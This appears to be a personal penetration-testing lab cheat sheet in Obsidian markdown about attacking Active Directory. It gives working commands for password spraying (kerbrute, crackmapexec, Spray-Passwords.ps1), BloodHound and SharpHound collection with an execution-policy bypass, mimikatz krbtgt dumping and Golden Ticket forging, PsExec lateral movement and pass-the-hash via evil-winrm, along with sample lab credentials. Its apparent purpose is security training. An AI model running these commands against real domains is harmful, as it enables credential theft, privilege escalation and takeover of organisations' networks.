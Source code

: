 #show
<%*
const path = tp.file.folder(true).split('/');
const filename = "2_B_AD_" + path[path.length - 1];
await tp.file.rename(filename);
tR += "Part of " + "[" + "[" + "0_Lab_" + path[path.length - 1] + "]]";
-%>

# Password spraying
Check for AD account lockout policy
```powershell
net accounts
```
If not set, we can try to spray AD passwords by two means:
- `.\Spray-Passwords.ps1 -Pass Nexus123! -Admin` (see `~/Documents/activeInformationGathering`)
- `kerbrute passwordspray -d corp.com .\users.txt "Password"` (cross-platform but requires UDP. Text file must be ANSI, else network error)
- `crackmapexec smb $hip -u $user -p '$password' -d corp.com --continue-on-success`
# BloodHound
1. **Setup C2 (Kali)**
```bash
(sleep 15 && bloodhound)& export PS1="$PS1\[\e]0;BloodHound\a\]"; sudo -b neo4j console
```
Enter root-pw into console. Use `neo4j:wandton` as login. If this doesn't work, login to `http://localhost:7474` with `neo4j:neo4j` and change password

One must also transfer the SharpHound script or executable to the victim ([[2_fileTransfer]]). They are in `/ftphome/`

2. **Collect data (Victim)**
```powershell
powershell -ep bypass
```

```powershell
.\SharpHound.exe --CollectionMethods All
```
or
```powershell
Import-Module .\Sharphound.ps1; Invoke-BloodHound -CollectionMethod All -OutputDirectory $dir
```
(Both gather all data except for local group policies.)

When done, transfer the .zip to kali ([[2_fileTransfer]])

3. **Analyze data (Kali)**
	1. In the Web-Interface, use the "Upload Data" function to upload the .zip
	2. Enter `MATCH (m:Computer) RETURN m` as raw query on the bottom. Right-click the node and select "Mark as Owned"
	3. Same for `m:User`
	4. Click the "More Info" tab on the top left. Change to tab "Analysis" and run the following analysis:
		1. _Shortest Paths to Domain Admins from Owned Principals_
		2. _Find Workstations where Domain Users can RDP_
		3. _Find Servers where Domain Users can RDP_
		4. _Find Computers where Domain Users are Local Admin_
	5. Check Relation-Ships with `MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p`
	Tips: Use the Control-Key to show information about all nodes. Look for the "?" Help menu, it also contains abuse possibilities.

# Yet-to-test attacks



##### Golden Ticket with mimikatz
Enter mimikatz
```
privilege::debug
```
Save Domain ID (sid), Primary NTLM
```
lsadump::lsa /inject /name:krbtgt
```
Create Golden Ticket (saved to ticket.kirbi)
```
kerberos::golden /user:Administrator /domain:%dns% /sid:%sid% /krbtgt:%ntlm% /id:500
```
Open a CMD with elevated privileges to all machines
```
misc::cmd
```
Runs cmd.exe on $machine (Needs PsExec.exe - you can scp) 
```powershell
PsExec.exe \\$machine cmd.exe
```

##### Pass-The-Hash Attack
```
evil-winrm -i $hip -u $user -H $hash
```
